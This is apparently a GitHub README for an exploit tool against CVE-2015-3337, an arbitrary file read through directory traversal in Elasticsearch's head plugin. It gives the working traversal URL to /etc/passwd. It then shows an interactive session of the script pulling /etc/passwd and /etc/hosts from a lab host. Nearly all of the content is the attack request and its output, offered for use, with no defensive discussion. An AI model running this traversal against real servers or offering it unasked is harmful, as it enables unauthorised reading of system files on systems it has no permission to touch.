


# CVE-2015-3337

##### CVE-2015-3337 任意文件读取

` http://10.10.20.166:9200/_plugin/head/../../../../../../../../../etc/passwd`



## Usage: python CVE-2015-3337.py

```
python CVE-2015-3337.py

 _____ _   _ _____       _____  _____  __   _____       _____  _____  _____  ______
/  __ \ | | |  ___|     / __  \|  _  |/  | |  ___|     |____ ||____ ||____ ||___  /
| /  \/ | | | |__ ______`' / /'| |/' |`| | |___ \ ______   / /    / /    / /   / /
| |   | | | |  __|______| / /  |  /| | | |     \ \______|  \ \    \ \    \ \  / /
| \__/\ \_/ / |___      ./ /___\ |_/ /_| |_/\__/ /     .___/ /.___/ /.___/ /./ /
 \____/\___/\____/      \_____/ \___/ \___/\____/      \____/ \____/ \____/ \_/

                        ElasticSearch File Read

            http://xx.xx.xx.xx:9200/_plugin/head/../../../../../../../../../etc/passwd


Example : http://10.10.20.166:9200

Set URL >>: http://10.10.20.166:9200

file >>: /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false


file >>: /etc/hosts

127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.28.0.2      a4d04603e35e


file >>:

```

